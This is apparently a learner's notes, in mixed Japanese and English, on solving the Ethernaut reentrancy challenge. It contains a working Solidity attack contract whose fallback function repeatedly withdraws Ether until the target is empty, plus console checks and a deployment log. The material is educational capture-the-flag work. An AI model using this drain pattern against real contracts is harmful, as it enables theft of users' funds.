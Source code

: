```solidity
        target.donate{ value: _amount, gas: 4000000 }(address(this)); //need to add this fn 
  //自分でcustom codeできたのはいい傾向。
    }

    fallback() external payable { //fallbackがtriggerになってzeroになるまでEthを抜き続ける
        if (address(target).balance != 0) {
            target.withdraw(amount);
        }
    }

}
```

/EthernautReentrancyAttack.sol custom!! 0.001用
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './Reentrance.sol';

contract EthernautReentrancyAttack {
    Reentrance target;
    uint public amount = 1000000000000000 wei; //withdraw amount each other 

    constructor(address payable _targetAddr) public payable {
        target = Reentrance(_targetAddr);
    }

    function donateToTarget() public { //Ethを送ることでhackingする
        target.donate{ value: amount, gas: 4000000 }(address(this)); //need to add this fn 
  //自分でcustom codeできたのはいい傾向。
    }

    fallback() external payable { //fallbackがtriggerになってzeroになるまでEthを抜き続ける
        if (address(target).balance != 0) {
            target.withdraw(amount);
        }
    }

}
```

*process! 

//HackしたいcontractのAddressを確認
```
>contract.address
'0xaF39fAee90a94f990C7479c460Ddf659084ee1F1'
```

//deploy copy address, Injected Web3を選択、value of 1 Ether, さっきdeployした contrat of EtherReentrancyAttack.sol をchoice 

//deploy done.
```
[block:10901374 txIndex:3]from: 0xF6e...f30F5to: EthernautReentrancyAttack.(constructor)value: 1000000000000000 weidata: 0x608...ee1f1logs: 0hash: 0x016...02cf3
```
//HackしたいcontractのEth残高確認(すでにtargetとしてdeploy済み)
```
>await getBalance(contract.address)
'0.001'
```
